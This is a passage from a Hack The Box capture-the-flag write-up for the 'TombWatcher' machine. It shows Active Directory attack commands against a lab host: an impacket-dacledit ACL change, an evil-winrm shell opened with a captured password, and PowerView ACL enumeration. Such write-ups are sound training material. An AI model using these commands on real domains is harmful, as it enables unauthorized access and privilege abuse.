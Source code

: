 - Clean up ACL:

```shell
impacket-dacledit -action remove -rights FullControl -principal sam -target john 'tombwatcher.htb/sam:Test1234.' -dc-ip 10.10.11.72
```

- Shell as john:

```shell
┌──(kali㉿kali)-[~/HTB/TombWatcher]
└─$ evil-winrm -i 10.10.11.72 -u JOHN -p 'Cyb3rtr0n@123'
```
![1](/assets/img/favicons/tombwatcher-htb/8.png)

> user Flag: C:\Users\john\Desktop\user.txt

### Retrieve cert_admin
Collecting additional BloodHound data gave us quick and interesting data about a deleted object!
![1](/assets/img/favicons/tombwatcher-htb/9.png)

Further enumeration with powershell:

```powershell
*Evil-WinRM* PS C:\Users\john\Desktop> Get-DomainObjectAcl -Search "CN=Configuration,DC=tombwatcher,DChtb" | ? { $_.SecurityIdentifier -like "*-1111" }
```
![1](/assets/img/favicons/tombwatcher-htb/9-1.png)
